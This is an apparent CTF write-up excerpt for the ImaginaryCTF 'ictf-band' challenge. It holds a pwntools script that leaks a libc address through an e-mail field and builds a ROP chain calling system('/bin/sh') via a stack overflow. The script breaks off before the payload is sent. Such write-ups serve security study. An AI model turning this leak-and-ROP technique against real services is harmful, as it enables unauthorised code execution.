 So we call that function, leak it, exit the loop and exploit the stack overflow to send ROP.

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.terminal = ['tmux', 'split-window', '-h']

TARGET = './ictf-band'
HOST = 'ictf-band.chal.imaginaryctf.org'
PORT =  1337

elf = ELF(TARGET)
def start():
    if not args.R:
        print("local")
        return process(['./ld-linux-x86-64.so.2', TARGET])
    else:
        print("remote")
        return remote(HOST, PORT)

def get_base_address(proc):
    lines = open("/proc/{}/maps".format(proc.pid), 'r').readlines()
    for line in lines :
        if TARGET[2:] in line.split('/')[-1] :
            break
    return int(line.split('-')[0], 16)

def debug(proc, breakpoints):
    script = "handle SIGALRM ignore\n"
    PIE = get_base_address(proc)
    for bp in breakpoints:
        script += "b *0x%x\n"%(PIE+bp)
    script += "c"
    gdb.attach(proc, gdbscript=script)

def dbg(val): print("\t-> %s: 0x%x" % (val, eval(val)))

r = start()
if args.D:
    debug(r, [0x20c5])

r.sendlineafter(b'>> ', b'1')
r.sendlineafter(b'[1-5]: ', b'0')
r.sendlineafter(b'Count: ', b'0')
r.sendlineafter(b'[y/n]: ', b'y')
r.sendlineafter(b'soon: ', b'16')
r.sendafter(b'e-mail: ', b'a'*0x10)
r.recvuntil(b'a'*0x10)
leak = u64(r.recvuntil(b'\n', True).ljust(8, b'\x00'))
r.sendlineafter(b'[y/n]: ', b'y')

base = leak - 0x21b780

dbg('base')
rdi = base + 0x001bbea1
binsh = base + 0x1d8678
system = base + 0x50d70


payload = b''
payload += b'a'*(0x200-0x98-1)
payload += flat(rdi+1,rdi, binsh, system)

```